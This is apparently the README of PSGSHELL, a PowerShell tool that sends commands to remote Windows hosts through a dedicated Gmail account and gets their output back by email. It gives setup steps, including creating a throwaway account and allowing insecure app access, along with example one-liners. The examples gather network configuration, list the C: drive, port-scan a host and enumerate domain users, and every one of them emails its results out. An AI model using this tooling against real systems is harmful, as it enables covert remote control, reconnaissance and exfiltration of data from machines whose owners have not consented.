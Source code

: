 # PSGSHELL

Setup:
Create a new gmail account for this and only this.
Allow non-secure apps

Both Scripts require that you set the email address and password variables at the top of the newly created gmail account.

Built for Powershell 2.0 (Win7) 

syntax is: 
To Return Output:

commander.ps1 '$variable = powershell oneliner; sendemail $variable ~host:host:host'

Without Returning output:

commander.ps1 'powershell oneliner ~host:host:host'


Examples:

# Get IP address
.\commander.ps1 '$var = ipconfig /all; sendemail $var ~123434'

# List C drive contents and send them back to email
.\commander.ps1 '$var = get-childitem c:\; sendmail $var ~123434'

#port scan a host
.\commander.ps1 '$var = 1..1024 | % { echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.10",$_)) "$_ is open"; sendemail $var ~123434'

# Get domain users (Net user /domain) but parsed for powershell output
.\commander.ps1 '$output = net user /domain;$output = $output[6..($output.length-3)];$output = $output -split "\s+" ;$output = $output | ? {$_}; sendemail $output ~123434'

